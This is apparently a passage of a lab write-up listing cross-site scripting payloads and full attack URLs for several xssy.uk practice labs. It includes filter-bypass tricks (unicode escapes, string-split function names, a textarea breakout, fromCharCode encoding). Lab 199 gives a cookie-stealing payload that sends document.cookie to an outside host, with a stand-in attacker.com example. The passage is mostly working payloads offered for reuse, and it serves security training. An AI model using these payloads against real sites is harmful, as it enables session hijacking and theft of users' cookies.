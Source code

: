 ```html
```
- **Description**: Host this code to server, when preview, copy the URL link to submit payload

---

### Lab 4: Alert Blocked XSS
- **URL Lab**: https://xssy.uk/lab/4
- **Payload (Unicode Escape)**: 
```html
<script>a\u006cert(document.cookie)</script>
```
- **Full URL**: 
```
https://5s3ucfal.xssy.uk/target.ftl?name=%3Cscript%3Ea\u006cert(document.cookie)%3C/script%3E
```
- **Alternative Technique**: 
```html
<script>window["al"+"ert"](document.cookie)</script>
```

---

### Lab 199: Capture Cookie
- **URL Lab**: https://xssy.uk/lab/199
- **Payload**: 
```javascript
<script>(new Image()).src="https://eqh42jmm.xssy.uk/?cookie"+document.cookie</script>
```
- **Full URL**: 
```
https://ozv4gjit.xssy.uk/target.ftl?name=%3Cscript%3E%28new+Image%28%29%29.src%3D%22https%3A%2F%2Feqh42jmm.xssy.uk%2F%3Fcookie%22%2Bdocument.cookie%3C%2Fscript%3E
```
- **Description**: Use `(new Image()).src='attacker.com?cookie='+document.cookie`

---

### Lab 219: Cookie Are Closer
- **URL Lab**: https://xssy.uk/lab/219
- **Payload**: 
```html
</textarea><script>alert(document.domain)</script>
```
- **Full URL**: 
```
https://j3y7iahh.xssy.uk/target.ftl?name=%3C/textarea%3E%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E
```

---

### Lab 246: Beating encodeURI
- **URL Lab**: https://xssy.uk/lab/246
- **Payload**: 
```javascript
%0A';alert(String.fromCharCode(100,111,99,117,109,101,110,116,46,99,111,111,107,105,101));//
```
- **Description**: If decoded = `\n';alert(document.cookie);//`

---